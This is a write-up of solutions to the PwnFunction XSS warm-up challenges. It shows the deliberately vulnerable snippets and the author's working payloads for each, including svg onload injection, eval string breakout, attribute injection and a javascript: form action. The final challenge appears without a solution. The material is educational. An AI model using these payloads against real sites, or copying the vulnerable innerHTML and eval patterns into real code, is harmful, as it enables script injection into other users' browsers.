 # pwnfunction xss solutions

## Warmups

### Ma Spaghet!

```html
<h2 id="spaghet"></h2>
<script>
    spaghet.innerHTML = (new URL(location).searchParams.get('somebody') || "Somebody") + " Toucha Ma Spaghet!"
</script>
```

My solution: `https://sandbox.pwnfunction.com/warmups/ma-spaghet.html?somebody=<svg>onload=alert(1337)>`

### Jefff

```html
<h2 id="maname"></h2>
<script>
    let jeff = (new URL(location).searchParams.get('jeff') || "JEFFF")
    let ma = ""
    eval(`ma = "Ma name ${jeff}"`)
    setTimeout(_ => {
        maname.innerText = ma
    }, 1000)
</script>
```

- I tried concatenation where `%2b` is `+`: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff=abc"%2b"xyz`
- Then got a working payload: `https://sandbox.pwnfunction.com/warmups/jefff.html?jeff="%2balert(1337)%2b"`
- Intended solution: `"-alert(1337)-"`

### Ugandan Knuckles

```html
<div id="uganda"></div>
<script>
    let wey = (new URL(location).searchParams.get('wey') || "do you know da wey?");
    wey = wey.replace(/[<>]/g, '')
    uganda.innerHTML = `<input type="text" placeholder="${wey}" class="form-control">`
</script>
```

My solution (same as rxss-angles-encoded in portswigger): `" autofocus onfocus="alert(1337)`
Intended solution: `"onfocus=alert(1337) autofocus="`

#### Ricardo Milos

```html
<form id="ricardo" method="GET">
    <input name="milos" type="text" class="form-control" placeholder="True" value="True">
</form>
<script>
    ricardo.action = (new URL(location).searchParams.get('ricardo') || '#')
    setTimeout(_ => {
        ricardo.submit()
    }, 2000)
</script>
```

- Spent a lot of time hacking the wrong parameter `milos` instead use `ricardo`.
- My solution: `https://sandbox.pwnfunction.com/warmups/ricardo.html?ricardo=javascript:alert(1337)`
- Intended solution: `javascript:alert(1337)`

#### Ah That's Hawt

```html
<h2 id="will"></h2>
<script>
    smith = (new URL(location).searchParams.get('markassbrownlee') || "Ah That's Hawt")
    smith = smith.replace(/[\(\`\)\\]/g, '')
    will.innerHTML = smith
</script>
```



